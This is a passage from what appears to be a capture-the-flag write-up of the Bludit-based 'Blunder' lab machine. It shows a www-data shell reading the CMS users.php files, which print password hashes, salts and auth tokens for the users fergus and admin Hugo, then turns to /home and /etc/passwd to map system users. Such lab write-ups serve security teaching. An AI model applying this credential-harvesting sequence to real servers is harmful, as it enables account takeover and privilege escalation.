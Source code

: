 ```bash
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}
```
<br />We already knew fergus' password so let's collect the admin one

### Password hash in bludit-3.10.0a/bl-content/databases
Just outside of bludit-3.9.2, there is another bludit version 3.10.0a. There is also another password hash in the same file.
<br />
```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
<br />It's for Hugo. Hugo is part of the system user if we check **```/home```** and **```/etc/passwd```**:
<br />
```bash
www-data@blunder:/$ ls -la /home
```
